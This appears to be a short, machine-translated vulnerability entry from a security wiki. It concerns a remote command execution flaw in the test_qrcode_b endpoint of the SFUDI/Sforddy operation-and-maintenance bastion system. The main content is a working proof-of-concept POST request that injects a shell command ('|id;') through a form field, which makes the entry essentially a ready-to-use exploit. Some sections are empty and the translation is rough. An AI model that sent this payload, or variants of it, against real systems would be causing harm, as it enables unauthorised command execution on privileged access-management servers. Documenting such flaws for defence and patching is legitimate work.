 # SFUDI Operation and Maintenance Security Management System test_qrcode_b Remote Command Execution Vulnerability

## Vulnerability Description

Sforddy's operation and maintenance security management system is an operation and maintenance security management fortress developed by Sforddy. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SFUDI Operation and Maintenance Security Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697769918498-610b91ad-86c8-4323-a090-b7dd64e707fe-20231108132626595.png)

Verify POC

```php
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: https://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697769963619-1628285d-0670-4734-b2ad-1ce0f63b9c4c.png)